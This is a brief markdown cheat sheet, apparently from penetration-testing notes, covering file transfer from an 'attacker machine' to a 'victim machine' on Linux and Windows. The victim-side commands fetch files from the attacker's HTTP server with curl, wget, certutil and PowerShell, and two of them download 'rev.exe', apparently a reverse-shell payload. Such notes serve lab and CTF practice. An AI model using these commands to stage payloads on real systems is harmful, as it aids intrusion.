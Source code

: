 # 2_file_transfer

## Linux

- Attacker machine.
```shell
python3 -m http.server 8888
```

- Victim machine using curl.
```shell
curl http://$me:8888/filename -o filename	
```

- Victim machine using wget.
```shell
wget http://$me:8888/filename -O filename
```

## Windows

- Attacker machine.
```shell
python3 -m http.server 8888
```

- Victim machine using CMD.
```shell
certutil -urlcache -f http://$me:8888/rev.exe rev.exe
```

- Victim machine using powershell.
```shell
powershell (New-Object Net.WebClient).Downloadfile('http://10.9.53.136:8888/rev.exe', 'rev.exe')
```

## Integrity check

- Check integrity after file transfer using

```shell
md5sum file
```
